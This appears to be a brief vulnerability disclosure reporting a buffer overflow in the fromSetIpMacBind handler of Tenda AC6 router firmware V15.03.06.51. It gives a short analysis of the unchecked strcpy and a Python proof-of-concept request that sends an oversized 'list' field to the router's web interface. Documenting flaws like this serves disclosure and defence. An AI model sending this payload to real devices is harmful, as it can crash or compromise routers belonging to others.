

# buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/fromSetIpMacBind

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:





get value from list, then static_list->list, finally call strcpy, cause buff overflow

but we must send bindnum between 0-33


## POC
```
url = "http://192.168.1.13/goform/fromSetIpMacBind"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'list': payload , 'bindnum': 1})
``` 
